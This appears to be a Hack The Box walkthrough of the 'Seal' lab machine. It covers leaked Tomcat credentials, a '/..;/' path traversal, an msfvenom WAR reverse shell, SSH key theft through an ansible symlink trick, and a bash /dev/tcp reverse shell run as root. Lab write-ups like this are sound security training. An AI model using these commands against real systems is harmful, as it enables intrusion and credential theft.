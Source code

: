 ```yaml
---
title: "[HTB] Seal - Walkthrough"
layout: post
tags: HTB
---
```


# Main points
* nginx and tomcat path traversal `/..;/` [#^57d812|tomcat apache 9.0.31](/assets/%23%5E57d812%7Ctomcat%20apache%209.0.31)
* `copy_link` of ansible can copy the target folder/file [#^0349ed|symlink whole folder](/assets/%23%5E0349ed%7Csymlink%20whole%20folder)
# Writeup
We start with basic nmap enumeration

- 22/tcp    open     ssh        syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- 443/tcp   open     ssl/http   syn-ack     nginx 1.18.0 (Ubuntu)
- 8080/tcp  open     http-proxy syn-ack

let's check the website

We see that port 8080 lands us on a Gitbucket login page and port 443 on a page with products and vegetable.

Let's create a new account in the Gitbucket page

We login with our account
![Pasted image 20210719010656.png](/assets/Pasted%20image%2020210719010656.png)

We see there is a root with 2 repo
![Pasted image 20210719163954.png](/assets/Pasted%20image%2020210719163954.png)

In the `seal_market` repository, we see there is an issue
![Pasted image 20210719164052.png](/assets/Pasted%20image%2020210719164052.png)
So there are 2 potential users `alex` and `luis`.
Let's check their commits in case there are some creds.

We find tomcat user
![Pasted image 20210719164536.png](/assets/Pasted%20image%2020210719164536.png)
`<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>`

Let's try to connect with those creds
![Pasted image 20210719164929.png](/assets/Pasted%20image%2020210719164929.png)

We have an error, maybe it's the password of alex or luis.

It worked with luis, but we can't do much now.

Let's check the port 443, where there is a seal market. We try to do some directory bruteforcing with gobuster.
![Pasted image 20210719170001.png](/assets/Pasted%20image%2020210719170001.png)
I checked them but apart from `index.html` they redirect to forbidden 403 error.

Except for the `/manager` that redirects to `/manager/html` which gives Forbidden 403. If i try to check `/manager/dashboard` for example, we get an error with a list of possible paths
![Pasted image 20210719170154.png](/assets/Pasted%20image%2020210719170154.png)

We try `/manager/text` and we get a prompt
![Pasted image 20210719170228.png](/assets/Pasted%20image%2020210719170228.png)

let's try the creds of tomcat 
It gives us access denied, we keep trying the other paths, and it works with /status

![Pasted image 20210719170422.png](/assets/Pasted%20image%2020210719170422.png)

We see the apache tomcat version is `Apache Tomcat/9.0.31 (Ubuntu)`

Let's see if there is a vulnerability for it.
We find this vulnerability that allows path traversal
https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/
> Tomcat will treat the sequence **/..;/** as **/../** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.

^57d812

So we try to access `/manager/status/..;/html`

We have access to dashboard
![Pasted image 20210719211910.png](/assets/Pasted%20image%2020210719211910.png)

We see that we can upload a WAR file
![Pasted image 20210719211929.png](/assets/Pasted%20image%2020210719211929.png)

Let's create a WAR reverse shell with msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.127 LPORT=4444 -f war > reverse.war
```
![Pasted image 20210719212250.png](/assets/Pasted%20image%2020210719212250.png)

We start our netcat listener and we upload our WAR file

![Pasted image 20210719212336.png](/assets/Pasted%20image%2020210719212336.png)

Since we can't upload it directly because it redirects to /html which is forbidden, we use Burp to catch the request and change the path to `/manager/status/..;/html`
![Pasted image 20210719212719.png](/assets/Pasted%20image%2020210719212719.png)

Our file was uploaded and deployed
![Pasted image 20210719212753.png](/assets/Pasted%20image%2020210719212753.png)
![Pasted image 20210719212917.png](/assets/Pasted%20image%2020210719212917.png)
Now all we need is to access this URL
![Pasted image 20210719212953.png](/assets/Pasted%20image%2020210719212953.png)
And we have a shell
![Pasted image 20210719213013.png](/assets/Pasted%20image%2020210719213013.png)
We cat `/etc/passwd`
![Pasted image 20210719213137.png](/assets/Pasted%20image%2020210719213137.png)

There is user luis

Let's see if there are processes related to luis
`ps -aux | grep luis`
![Pasted image 20210719214919.png](/assets/Pasted%20image%2020210719214919.png)
There is a `gitbucket.war` running and there is a ansible-playbook running every 30 seconds
`sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml`
Let's see the content
![Pasted image 20210719220620.png](/assets/Pasted%20image%2020210719220620.png)
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
The task "Copy Files" copies files from the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` into `/opt/backups/files`

I dont know what `copy_links` refers to so let's check the documentation

![Pasted image 20210719221005.png](/assets/Pasted%20image%2020210719221005.png)

So if I understand that correctly, if we have a file in the src directory that has a symlinks to a file in /tmp/script, it will copy the /tmp/script to the backup folder ^0349ed

We also have read access to the backup folder
![Pasted image 20210719221417.png](/assets/Pasted%20image%2020210719221417.png)
And write access in the `/uploads/` folder in the src directory
![Pasted image 20210719221507.png](/assets/Pasted%20image%2020210719221507.png)
let's create a file with a symlink to the private key ssh of luis id_rsa in .ssh folder of luis
![Pasted image 20210719222134.png](/assets/Pasted%20image%2020210719222134.png)
`ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/`

We go to `/opt/backups/archives`, wait a little, and we see the recet backup created. let's download it by setting up a python server 
![Pasted image 20210719222418.png](/assets/Pasted%20image%2020210719222418.png)

![Pasted image 20210719222636.png](/assets/Pasted%20image%2020210719222636.png)
We download the archive
![Pasted image 20210719222709.png](/assets/Pasted%20image%2020210719222709.png)
and extract it with `gzip`

`gzip -d backup-2021-07-19-20:36:32.gz`
We have a tar archive, let's extract it
`tar xvf backup`
![Pasted image 20210719224538.png](/assets/Pasted%20image%2020210719224538.png)

We have our id_rsa file, we can get user by connecting with

`ssh luis@10.10.10.250 -i id_rsa`

We have user now and user flag

# Priv Esc
We run `sudo -l` to see if we can run something as root
we see we can run ansible as root

![Pasted image 20210719224923.png](/assets/Pasted%20image%2020210719224923.png)

So the idea is to create a malicious `yml` file and run it with ansible, this is easier than getting the user xD
`play.yml`
```yml
- hosts: localhost
  tasks:
  - name: Give root
    command: "/bin/bash ./script.sh"
```

`script.sh`
```bash
/bin/bash -i >& /dev/tcp/10.10.14.127/4444 0>&1
```
We setup our netcat listener and we run the command `sudo ansible-playbook play.yml`

![Pasted image 20210719230828.png](/assets/Pasted%20image%2020210719230828.png)

And we have root, and we get the flag
# root hash
`$6$D8b4qJlaLsRsvwuy$qvUFLUdvoH0EsvrLSJCpejOmV7bZoCO2ZGH2ueU77uAHpxepSfK.ts4LkkfwzuJ.IJ87EeK9RrNKHEorKQp3r`